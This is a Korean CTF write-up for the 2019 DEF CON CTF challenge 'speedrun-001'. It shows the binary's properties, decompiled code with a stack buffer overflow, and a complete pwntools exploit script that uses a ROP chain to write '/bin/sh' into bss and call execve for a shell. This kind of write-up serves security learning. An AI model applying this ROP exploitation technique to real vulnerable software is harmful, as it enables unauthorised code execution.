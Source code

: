 ```yaml
---
title: "2019 Defcon CTF speedrun-001"
date: 2020-1-4
ctf: Defcon CTF
layout: post
published : false
---
```


statically linked이고 stripped 돼있다.

```
speedrun-001: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=e9266027a3231c31606a432ec4eb461073e1ffa9, stripped
```

여기가 main인거같다. 그냥 bof터진다. RELRO는 Partial이고 NX걸려있다.

```c
__int64 sub_400B60()
{
  char buf; // [rsp+0h] [rbp-400h]

  sub_410390("Any last words?");
  sub_4498A0(0, &buf, 0x7D0uLL);
  return sub_40F710("This will be the last thing that you say: %s\n");
}
```

stripped 되어있어서 syscall 가져와서 익스해주면 된다. syscall gadget은 그냥 널려있는데 read syscall을 이용했다.

bss영역에 `/bin/sh\x00` 을 넣어주고 `execve` 로 쉘따면된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./speedrun-001')
p = process('./speedrun-001')
prax = 0x0000000000415664 # pop rax ; ret
prdi = 0x0000000000400686 # pop rdi ; ret
prsi = 0x00000000004101f3 # pop rsi ; ret
prdx = 0x00000000004498b5 # pop rdx ; ret
main = 0x0000000000400B60
syscall = 0x00000000004498AC

payload = '\x90'*1024
payload += 'realsung'
payload += p64(prax) + p64(0)
payload += p64(prdi) + p64(0)
payload += p64(prsi) + p64(e.bss())
payload += p64(prdx) + p64(10)
payload += p64(syscall)
payload += p64(main)

p.sendlineafter('Any last words?',payload)
p.sendline('/bin/sh\x00')

payload2 = '\x90'*1024
payload2 += 'realsung'
payload2 += p64(prax) + p64(59)
payload2 += p64(prdi) + p64(e.bss())
payload2 += p64(prsi) + p64(0)
payload2 += p64(prdx) + p64(0)
payload2 += p64(syscall)

p.sendlineafter('Any last words?',payload2)

p.interactive()
```

